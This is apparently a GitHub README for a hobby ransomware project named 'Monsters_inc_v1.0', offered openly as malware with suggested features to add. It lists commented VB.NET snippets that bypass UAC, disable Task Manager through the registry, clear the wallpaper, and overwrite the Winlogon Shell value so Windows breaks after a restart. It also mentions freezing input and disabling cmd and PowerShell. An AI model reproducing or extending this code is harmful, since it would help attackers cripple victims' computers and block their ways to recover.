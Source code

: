 # Monsters_inc_v1.0<br>
Simple ransomware ..<br>
You can develop the ransomware by adding some features such as :<br>

        'Bypass UAC
        'Process.Start("cmd", "/c SET __COMPAT_LAYER=RunAsInvoker")
        'Disable taskmanager
        'My.Computer.Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System")
        'My.Computer.Registry.SetValue("DisableTaskMgr", 1, RegistryValueKind.String)
        'Remove wallpaper desktop
        'My.Computer.Registry.CurrentUser.CreateSubKey("Control Panel\\Desktop")
        'My.Computer.Registry.SetValue("Wallpaper", "", RegistryValueKind.String)
        'If you shutdown your computer, you cant run winodws well
        'My.Computer.Registry.CurrentUser.CreateSubKey("SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon")
        'My.Computer.Registry.SetValue("Shell", "empty", RegistryValueKind.String)

        'Frazee mouse/keyboard + kill proccess + disable command line&Powershell

Video : https://youtu.be/DO442auD2ic<br>
Twitter : https://twitter.com/0xHunter
